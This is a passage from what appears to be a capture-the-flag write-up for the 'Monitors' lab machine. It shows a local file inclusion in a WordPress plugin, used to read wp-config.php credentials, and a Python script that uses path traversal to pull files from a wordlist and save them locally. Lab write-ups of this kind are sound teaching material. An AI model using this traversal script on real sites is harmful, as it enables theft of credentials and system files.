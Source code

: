 From here on there were two possible ways to user with one of them being patched by now. We will cover both, starting with the intended route.

### LFI

Since wordpress often stores database credentials in cleartext in the `wp-config.php` file this is an interesting point for us to start. Going up a few directories we are able to retrieve it with a set off credentials.

[![wp_config](/img/monitors/wp_config.png)](/img/monitors/wp_config.png)

Heading to the wordpress login we see that the password doesn't fit to the username admin. Since there is more on the machine than just worpress the next step for us is to retrieve as many files from the target with the LFI as possible.
For this we use a short python script with the LFI wordlists from the Seclists repo merged and cleaned.

`lfi.py`
```py
import requests

files = open('./list.txt', 'r').readlines()
proxies = { 'http' : 'http://127.0.0.1:8080' }

for fi in files:
    fi = fi.strip()
    payload = f'http://monitors.htb/wp-content/plugins/wp-with-spritz/wp.spritz.content.filter.php?url=/../../../..//{fi}'
    r = requests.get(payload, proxies=proxies)
    filtered = r.text
    print(fi)
    if len(filtered):
        fi = fi.replace('/', '\\')
        exfil = open(f'./exfil/{fi}', 'w')
        try:
            exfil.write(filtered)
        except:
            print(f'{fi} is a binary file')
        exfil.close()
        print(filtered)
```

We create the `exfil` directory in our current working directory, put the wordlist there aswell and run the fuzzer. After a while the script finishes, leaving us with a lot more information about the system we just have to sort through.
